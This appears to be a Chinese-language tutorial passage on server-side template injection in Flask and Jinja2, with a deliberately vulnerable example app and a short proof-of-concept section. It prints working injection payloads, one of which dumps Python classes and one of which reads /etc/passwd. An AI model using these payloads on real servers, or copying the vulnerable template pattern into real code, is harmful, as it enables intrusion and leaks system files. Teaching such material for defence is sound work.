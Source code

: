 Jinja2 模板同樣支持控制語句，像在{%…%} 塊中，下面舉一個常見的使用Jinja2模板引擎for語句循環渲染一組元素的例子：
```htmlmixed=
<ul>
     {% for comment in comments %}
         <li>{{comment}}</li>
     {% endfor %}
</ul>
```

## 範例
有了剛剛的想法來看個簡單的例子。下面是一個簡單的flask API的服務
```python=
from flask import Flask, render_template_string, request

app = Flask(__name__)
app.secret_key = "hello world"

@app.route('/', methods=['GET', 'POST'])
@app.route('/index', methods=['GET', 'POST'])
def test():
    template = '''
        <h3>hello world</h3>
        <div>
            <h3>%s</h3>
        </div>
    ''' % (request.args.get("search"))

    return render_template_string(template)


if __name__ == '__main__':
    app.debug = True
    app.run()
```

在經典的SSTI中，漏洞是使用了render_template_string() 使用了"%s"或.format()來替換字串。
Jinja2渲染資訊到前端時，會將 {{...}} 裡面的內容作解析，而flask使用了Jinja2作為模板渲染引擎，因此輸入如 {{ 7+7 }} 時，就會被解析成14。


### 不專業POC說明
由上面的source code可以看見當網頁進入/index時會以GET方式請求(當在網址欄輸入URL都是以GET方式請求)，並且會在URL後附帶GET參數?search=。
```
http://127.0.0.1:5000/?search={{7*7}}
```
![](https://i.imgur.com/m7dhP3B.png)

而search參數後面的值會同時反應到template字串中的%s，所以可以利用在參數後傳入模板塊{{...}}，就可以達到注入的效果。若傳入相關的惡意程式碼，則有機會達到RCE攻擊或獲取伺服器相關訊息。
* Dump all used classes
`{{ ''.__class__.__mro__[2].__subclasses__() }}`


* Read File
`{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}`
